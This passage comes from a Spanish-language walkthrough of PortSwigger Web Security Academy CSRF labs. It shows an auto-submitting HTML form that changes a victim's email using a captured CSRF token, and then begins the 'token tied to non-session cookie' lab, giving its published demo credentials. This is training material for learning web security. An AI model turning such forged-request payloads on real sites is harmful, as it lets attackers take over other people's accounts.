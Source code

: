 Se cambia. Volvemos a hacer lo mimo pero vamos a crear una plantilla en el exploit server con un token que no ha sido usado.

```
<form class="login-form" name="change-email-form" action="https://0aeb002e0308a516809a9965003a0095.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="hola@beafn28.com">
    <input required="" type="hidden" name="csrf" value="VLP7coZnGhH6HBDu5GwvShgSWmqPZbhU">
</form>

<script>
    document.forms[0].submit();
</script>
```



<figure><img src="../../.gitbook/assets/image (1488).png" alt=""><figcaption></figcaption></figure>

## Lab: CSRF where token is tied to non-session cookie

### Enunciado

La funcionalidad de cambio de correo electrónico de este laboratorio es vulnerable a CSRF. Utiliza tokens para intentar prevenir ataques CSRF, pero no están completamente integrados en el sistema de manejo de sesión del sitio. Usar tu servidor de exploits para alojar una página HTML que realice un ataque CSRF y cambie la dirección de correo electrónico del usuario que la visite. Tienes dos cuentas en la aplicación que puedes usar para ayudarte a diseñar tu ataque. Las credenciales son las siguientes:

* wiener:peter
* carlos:montoya

### Resolución

Nos logueamos. Miramos el código fuente.&#x20;

<figure><img src="../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>
